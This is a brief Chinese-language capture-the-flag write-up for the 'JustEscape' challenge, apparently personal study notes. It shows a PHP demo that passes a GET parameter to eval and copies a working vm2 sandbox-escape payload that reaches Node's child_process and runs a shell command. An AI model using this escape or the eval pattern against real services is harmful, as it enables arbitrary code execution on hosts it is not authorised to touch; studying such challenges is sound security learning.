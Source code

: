    




### JustEscape   

   
![01.png](https://sc01.alicdn.com/kf/H375cdea26ac54e8c8ee6dfdf19c4a90ag.png) 

     

下面两个demo     

看下`run.php`     




	```php
	<?php
	if( array_key_exists( "code", $_GET ) && $_GET[ 'code' ] != NULL ) {
	    $code = $_GET['code'];
	    echo eval(code);
	} else {
	    highlight_file(__FILE__);
	}
	?>
	```



试了下，感觉什么都执行不了     

前面提示说`真的是 PHP 嘛`      
难道不是PHP      

看下WP   

是js      

js还不会，先简单记一下吧，等学学再回来看看     

[`js  vm2沙箱逃逸`](https://www.anquanke.com/post/id/207291)      

payload:   

	code = '(' + function(){
		TypeError.prototype.get_process = f=>f.constructor("return process")();
		try{
			Object.preventExtensions(Buffer.from("")).a = 1;
		}catch(e){
			return e.get_process(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
		}
	}+')()';
	try{
		console.log(new VM().run(code));
	}catch(x){
		console.log(x);
	}
